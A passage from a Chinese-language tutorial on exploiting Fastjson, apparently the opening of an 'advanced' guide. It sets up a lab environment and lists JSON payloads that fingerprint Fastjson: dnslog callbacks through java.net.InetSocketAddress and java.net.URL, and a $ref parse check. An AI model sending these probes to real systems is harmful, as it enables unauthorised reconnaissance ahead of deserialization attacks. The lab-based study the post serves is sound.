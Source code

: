 # 零、写在前面的话

## 0.1 前言
在我刚接触`Java`安全的时候，我写过一篇零基础入门级别的文章：
> 【两万字原创长文】完全零基础入门Fastjson系列漏洞（基础篇）
> https://mp.weixin.qq.com/s/SOKLC_No0hV9RhAavF2hcw

现在距离这篇文章的写作时间已经过去整整半年，该写写他的提高篇了。基础篇发布后，很多师傅在朋友圈发表了留言，有不少师傅提出了宝贵而真挚的建议，也有师傅（@Y1ngSec、@lenihaoa）指出我文章的不足，我在此再次表示诚挚的感谢。
后来我在准备写fastjson漏洞利用提高篇的时候发现，网上的一些payload总结要么是东一块西一块很零散，要么就是没有经过仔细的校对（一些`payload`的注释的利用范围明显是错的，另一些给出的`payload`本身就是错的），要么就是说明很简短，让新手看了一头雾水不知道具体出现什么情况才是正确的。
为了方便自己平时查阅利用，也为了尽量修复以上的问题，我写下了这篇文章。不过需要注意的是，这篇文章是总结性质的，是从`1`到`n`的，并非从`0`到`1`，所有我参考过的文章我都会列在文章末尾以表示感谢。
## 0.2 准备工作
我这里大部分直接使用`safe6Sec`师傅制作的复现环境（如果需要使用其他的靶场我会单独说明）：
```json
git clone https://github.com/safe6Sec/ShiroAndFastJson.git
```
我修改了`IndexController.java`文件中的`parse`函数，方便我查看解析结果或者解析报错内容：
```java
@PostMapping("/json")
@ResponseBody
public JSONObject parse(@RequestBody String data) {
    JSONObject jsonObject = new JSONObject();
    try {
        jsonObject.put("status", 0);
        jsonObject.put("message", String.valueOf(JSON.parse(data)));
    } catch (Exception e) {
        jsonObject.put("status", -1);
        jsonObject.put("error", e.getMessage());
    }
    return jsonObject;
}
```
![image.png](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/1697540726015-d45f1340-b5a7-44ca-b694-1c0f3d15a811.png#averageHue=%2325282b&clientId=u69b9a195-ec36-4&from=paste&height=1040&id=udc76540a&originHeight=1040&originWidth=1920&originalType=binary&ratio=1&rotation=0&showTitle=false&size=301629&status=done&style=none&taskId=u09926218-8720-40c7-9239-9fcce6bce8b&title=&width=1920)
接下来，如果不做特别说明的话，我都是向`json`接口进行`post`请求`payload`。
# 一、判断所使用的Json库
需要注意的是，以下大部分都是在没有报错返回的情况下利用的方法，个别的我会做出说明。
## 1.1 Fastjson
### 1.1.1 dnslog判断法
`payload1`：
```json
{"@type":"java.net.InetSocketAddress"{"address":,"val":"rtpmognpiy.dgrh3.cn"}}
```
`payload2`：
```json
{{"@type":"java.net.URL","val":"http://qvhkmkgcta.dgrh3.cn"}:"a"}
```
如果以上`payload`正常返回并受到`dnslog`请求，说明目标使用的是`fastjson`框架。
### 1.1.2 解析判断法
`payload3`：
```json
{"ext":"blue","name":{"$ref":"$.ext"}}
```
如果解析成功，那么说明目标使用的是`fastjson`：
![image.png](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/1697540959912-337438c6-5b71-414e-94cc-612623a4e8ec.png#averageHue=%23b9dfd2&clientId=u69b9a195-ec36-4&from=paste&height=1040&id=uc0fc0b31&originHeight=1040&originWidth=1920&originalType=binary&ratio=1&rotation=0&showTitle=false&size=145062&status=done&style=none&taskId=ubc06db6e-e04f-4295-8e37-2e217a5e3db&title=&width=1920)
至于这个下面的这个`payload4`，需要根据具体环境参数来修改，不可直接使用：
```json
```